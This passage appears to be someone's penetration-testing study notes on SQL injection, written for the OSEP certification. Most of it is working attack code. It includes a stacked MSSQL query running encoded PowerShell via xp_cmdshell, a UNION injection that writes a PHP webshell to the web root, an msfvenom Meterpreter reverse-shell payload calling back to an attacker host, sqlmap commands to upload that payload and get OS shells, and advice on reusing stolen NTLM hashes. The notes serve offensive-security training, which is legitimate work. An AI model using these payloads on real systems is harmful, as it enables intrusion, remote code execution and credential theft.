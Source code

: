 ## SQLi

Example stacked query that worked against a machine:
```sql
'; EXECUTE xp_cmdshell 'powershell -enc JABjAGwAaQBl...AKAApAA==';--
```

For examples of the above and more check out PayloadAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md

### SQLMap

In OSEP SQLMap is fair game. The methods above still work and may still be handy for probing to acquire the appropriate parameters for SQLMap, but in the end SQLMap is the tool we want:

```bash
sqlmap -u "http://192.168.x.y/loginform.asp" -p uname,psw
```

### Uploading webshells

Basic PHP UNION webshell, first enumerate no. of columns in the table:
```sql
' ORDER BY <Column no. to test>-- //
```
Inject webshell into PHP site via `UNION`:
```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

Of course this is manual and hacky and mostly here so we appreciate the theory. The appropriate approach is ofc with SQLMap:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.x.y LPORT=443 -f aspx -o /home/kali/met.aspx
```
```bash
sqlmap -u "http://192.168.x.y/loginform.asp?uname=asdf&pws=qwer" -p uname,psw --file-write /home/kali/met.aspx --file-dest C:\\inetpub\\wwwroot\\met.aspx
```

Speaking of which...

### SQLMap

SQLMap is powerful, versatile, and mostly self-documenting. No one size fits all command for its use. Requires a little manual messing around sometimes to find injectable pages and params, consider using in conjunction with `gobuster`. Optional params of note not to forget about here being `--sql-shell` and `--os-shell`.

### mssqlclient

If we manage to lay hands on NTLM hashes/creds don't forget to try and use them against an MSSQL server using `impacket-mssqlclient`. Absolute goldmine. Also mostly self-documenting, don't forget to thoroughly enumerate tables, links and logged in users.
